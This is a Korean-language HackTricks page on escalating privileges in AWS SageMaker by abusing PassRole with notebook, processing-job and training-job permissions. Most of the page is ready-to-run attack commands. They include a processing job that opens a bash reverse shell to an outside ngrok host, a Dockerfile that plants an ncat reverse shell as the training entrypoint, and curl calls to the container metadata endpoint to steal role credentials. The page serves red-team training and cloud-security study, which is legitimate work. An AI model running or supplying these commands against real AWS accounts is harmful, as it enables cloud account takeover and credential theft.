 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM 역할을 사용하여 연결된 노트북을 생성하기 시작합니다:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
응답에는 새로 생성된 노트북 인스턴스의 ARN을 포함하는 `NotebookInstanceArn` 필드가 포함되어야 합니다. 그런 다음 `create-presigned-notebook-instance-url` API를 사용하여 노트북 인스턴스가 준비되면 액세스하는 데 사용할 수 있는 URL을 생성할 수 있습니다:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
브라우저로 URL에 접속하고 오른쪽 상단의 \`Open JupyterLab\`을 클릭한 다음, “Launcher” 탭으로 스크롤하여 “Other” 섹션 아래의 “Terminal” 버튼을 클릭합니다.

이제 IAM 역할의 메타데이터 자격 증명에 접근할 수 있습니다.

**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Jupyter **노트북이 이미 실행 중인 경우** `sagemaker:ListNotebookInstances`로 목록을 나열할 수 있습니다(또는 다른 방법으로 발견할 수 있습니다). **그에 대한 URL을 생성하고, 접근하여 이전 기술에서 언급한 대로 자격 증명을 훔칠 수 있습니다.**
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**잠재적 영향:** 연결된 sagemaker 서비스 역할에 대한 권한 상승.

### `sagemaker:CreateProcessingJob,iam:PassRole`

해당 권한을 가진 공격자는 **sagemaker가 처리 작업을 실행**하도록 할 수 있습니다. 공격자는 **AWS 관리 ECS 계정 인스턴스**에서 실행될 컨테이너의 정의를 지정할 수 있으며, **연결된 IAM 역할의 자격 증명을 훔칠 수 있습니다.**
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

해당 권한을 가진 공격자는 훈련 작업을 생성할 수 있으며, **임의의 컨테이너를 실행**하고 **역할을 첨부**할 수 있습니다. 따라서 공격자는 역할의 자격 증명을 훔칠 수 있습니다.

{% hint style="warning" %}
이 시나리오는 이전 것보다 악용하기 더 어렵습니다. 왜냐하면 공격자가 rev shell 또는 자격 증명을 직접 공격자에게 전송하는 Docker 이미지를 생성해야 하기 때문입니다(훈련 작업의 구성에서 시작 명령을 지정할 수 없습니다).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**잠재적 영향:** 지정된 sagemaker 서비스 역할로의 권한 상승.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

해당 권한을 가진 공격자는 (잠재적으로) **하이퍼파라미터 훈련 작업**을 생성할 수 있으며, **임의의 컨테이너**를 실행하고 **연결된 역할**을 부여할 수 있습니다.\
_시간 부족으로 인해 활용하지 않았지만, 이전의 익스플로잇과 유사해 보입니다. 익스플로잇 세부정보와 함께 PR을 보내주시면 좋겠습니다._

## 참고자료

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
